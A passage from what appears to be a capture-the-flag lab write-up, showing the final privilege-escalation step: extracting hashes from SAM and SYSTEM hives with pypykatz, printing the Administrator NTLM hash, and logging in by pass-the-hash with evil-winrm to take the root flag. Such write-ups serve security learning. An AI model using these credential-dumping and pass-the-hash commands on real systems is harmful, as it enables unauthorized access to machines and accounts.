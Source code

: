 After downloading the files, I used a tool named `pypykatz` to extract the account hashes.

`pypykatz registry --sam ./sam ./system`

![Extracted Hashes](images/extracted_hashes.png)

The piece of information I wanted was this line:\
`Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::`

This contains the hash for the **Administrator** user which I can use to perform a **Pass-the-Hash** attack to login to winrm.

**Hash: `2b87e7c93a3e8a0ea4a581937016f341`**

I then closed the winrm connection as **emily.oscars** and ran this command to login as **Administrator**.

```
evil-winrm -i $IP -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```
![Administrator Access](images/administrator_access.png)

After logging in, I was able to retrieve the root flag from the Desktop of the **Administrator** account and complete this box.